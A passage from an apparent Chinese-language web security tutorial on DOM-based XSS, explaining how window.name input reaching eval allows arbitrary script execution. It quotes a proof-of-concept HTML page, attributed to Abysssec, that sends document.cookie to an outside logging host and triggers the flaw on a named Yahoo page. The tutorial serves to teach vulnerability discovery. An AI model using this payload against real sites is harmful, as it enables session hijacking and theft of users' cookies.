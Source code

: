 ![xss-36](./img/xss-36.png)

提示 windows.name 输入数据被直接传递给 eval 函数，也就是说如果你能控制 windows.name 的值，就可以实现任意 JS 代码的执行。利用起来也非常简单，我们可以看下漏洞发现者 Abysssec 公司发布的利用代码：

```html
<html>
<script>
window.name=' new Image().src="http://abysssec.com/log/log.php?cookie="+encodeURI(document.cookie);
setTimeout(\"location.href = \'http:\/\/www.yahoo.com\';\",10);';
location.href="http://adspecs.yahoo.com/index.php";
</script>
</html>
```

利用思路就是直接设置 window.name 参数，插入打算执行的 JS 代码，然后用 location.href 跳转到漏洞页面去触发。这类漏洞我在网易的一些网站上也发现了不少，也是用 Dominator 挖掘到的，所以个人比较推荐。

### 白盒测试
